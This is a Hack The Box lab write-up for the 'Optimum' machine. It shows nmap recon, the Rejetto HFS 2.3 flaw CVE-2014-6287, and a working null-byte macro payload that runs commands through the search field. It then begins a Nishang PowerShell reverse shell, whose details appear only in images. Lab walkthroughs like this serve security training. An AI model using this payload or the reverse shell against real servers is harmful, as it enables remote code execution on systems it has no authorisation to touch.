 # Hack The Box - Optimum

```CSS
Machine IP: 10.10.10.8

Vulnerabilities:
  - Rejetto HTTP File Server 2.3: CVE-2014-6287 (w/o MetaSploit)
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.8 -T4 --min-rate 1000 -oN surface.nmap

Nmap scan report for 10.10.10.8
Host is up (0.18s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
```

```CSS
▶ nmap -sC -sV -p 80 10.10.10.8 -oN deep.nmap

Nmap scan report for 10.10.10.8
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP #80
![image](https://user-images.githubusercontent.com/83878909/235110690-0249d8ca-39e8-42c0-b237-2aab3e219a96.png)

### HTTP File Server 2.3
  - CVE-2014-6287 : The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aka HFS or HTTP Fileserver) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

### Exploit
![image](https://user-images.githubusercontent.com/83878909/236133911-37a8b4c2-129c-4215-81f0-4b67efba6033.png)

#### Command Execution

```CSS
▶ tcpdump -i tun0
```
```CSS
%00{.exec|ping 10.10.14.21.}
```
![image](https://user-images.githubusercontent.com/83878909/236135355-c044f521-5cea-4d4c-abb3-95aafa954d6c.png)
![image](https://user-images.githubusercontent.com/83878909/236134669-802324a7-fbd7-4cf3-9cd8-6bc4c8336c04.png)

#### Reverse Shell (Nishang)
```CSS
Invoke-PowerShellTcp.ps1
```
![image](https://user-images.githubusercontent.com/83878909/236135960-4b5a97fd-8c54-4847-ac0e-f6e6c1dbed23.png)

  - Copy and Paste the line of code to the bottom of the sciript.
  - Edit the code.
![image](https://user-images.githubusercontent.com/83878909/236136805-0bc1601e-7bad-4b11-bad7-3206cf2f3dcd.png)
![image](https://user-images.githubusercontent.com/83878909/236137400-fad06366-6e40-4a1f-b0de-1f1d8831b9ff.png)

